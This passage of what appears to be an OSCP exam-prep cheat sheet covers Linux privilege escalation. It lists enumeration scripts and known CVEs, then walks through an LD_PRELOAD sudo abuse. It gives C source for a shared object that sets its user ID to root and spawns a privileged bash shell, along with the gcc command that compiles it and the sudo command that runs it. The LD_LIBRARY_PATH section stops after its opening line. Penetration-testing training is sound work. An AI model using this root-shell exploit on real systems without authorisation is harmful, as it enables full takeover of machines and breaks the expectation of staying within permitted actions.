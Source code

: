 ### LINPEAS AND `unix-privesc-check` and Linux Smart Enumeration (lse.sh)

**CHECK THESE AS WELL**

CVE-2021-3156

DirtyPipe

[CVE-2021-4034.py](http://cve-2021-4034.py/)

### LD_PRELOAD and LD_LIBRARY_PATH examples

**LD_PRELOAD**

if running `sudo -l` and see LD_PRELOAD and have sudo perms on binary you can priv esc

`sudo -l`

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/b5aa322a-3b36-4834-84e7-480bdf932eb8)

Next make shared object (.so) file like so with c 

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/29dd79eb-f378-4d56-a67b-f7f62d8ae7f2)


```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

Next compile the .c expoit to create shared object (.so file)

`gcc -fPIC -shared -nostartfiles -o /tmp/<filename>.so <filename>.c` 

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/a6e5e005-ca7c-4a92-8dfb-37d38c0d1729)


Finally run binary with sudo and LD_preload shared object we just created

`sudo LD_PRELOAD=/tmp/<filename>.so <binary>`

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/a15d4984-c762-4954-88ec-5d61877db895)

_

**LD_LIBRARY_PATH**

if running `sudo -l` and seeLD_LIBRARY_PATH and have sudo perms on binary you can priv esc

`sudo -l`

